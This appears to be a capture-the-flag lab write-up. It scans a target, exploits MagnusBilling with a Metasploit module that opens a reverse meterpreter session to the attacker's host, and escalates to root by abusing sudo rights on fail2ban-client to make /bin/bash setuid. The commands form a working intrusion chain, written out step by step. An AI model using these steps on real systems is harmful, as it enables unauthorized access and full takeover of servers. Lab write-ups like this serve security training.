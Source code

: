 #### Target Ip :  10.201.76.54

-----------

RustScan 

rustscan -a 10.201.76.54 -- -sC -sV 

![[Pasted image 20251025174816.png]]

We found open ports :  

Open 10.201.76.54:22  
Open 10.201.76.54:80
Open 10.201.76.54:3306
Open 10.201.76.54:5038

![[Pasted image 20251025183606.png]]

These are the service running on the server.

----------------
Then we found a exploit on msf console and the service was MagnusBilling


msf > search MagnusBilling

![[Pasted image 20251025183737.png]]

msf > use 0

msf >show options

![[Pasted image 20251025184034.png]]

msf >set RHOSTS 10.201.89.202

msf >set LHOST 10.17.17.19

msf >run

Now we get the meterpreter session 

![[Pasted image 20251025184353.png]]

Then back to the home directory 

Found total 3 users 

![[Pasted image 20251025184711.png]]

So finally in the magnus user i found the user.txt flag

----------------
Now lets find the root.txt Flag

To do that we have to escalate priviellage

check which service we can use under sudo permission . Before that change the meterpreter shell to normal shell.

meterpreter > shell

sudo -l

![[Pasted image 20251025190512.png]]

we found fail2bn service that have sudo permission......

**fail2ban :** Fail2ban is an open-source intrusion prevention software for Linux that protects servers from brute-force attacks by monitoring log files for suspicious activity and automatically banning malicious IP addresses.

lets exploit these service !!!!!!!!!!

we found a exploit on https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/

# Investigation

sudo -l

# Output:

(ALL) NOPASSWD: /usr/bin/fail2ban-client

**If we can execute fail2ban-client command as root, we may be able to escalate privilege and gain a root shell.**

# Exploit : 

## step 1:
### Get jail list

```
sudo /usr/bin/fail2ban-client status
```

## step 2 : 

```
# Choose one of the jails from the "Jail list" in the output.

sudo /usr/bin/fail2ban-client get <JAIL> actions

# Create a new action with arbitrary name (e.g. "evil")

sudo /usr/bin/fail2ban-client set <JAIL> addaction evil

# Set payload to actionban

sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"

# Trigger the action

sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5

# Now we gain a root

/bin/bash -p

```

![[Pasted image 20251025191627.png]]

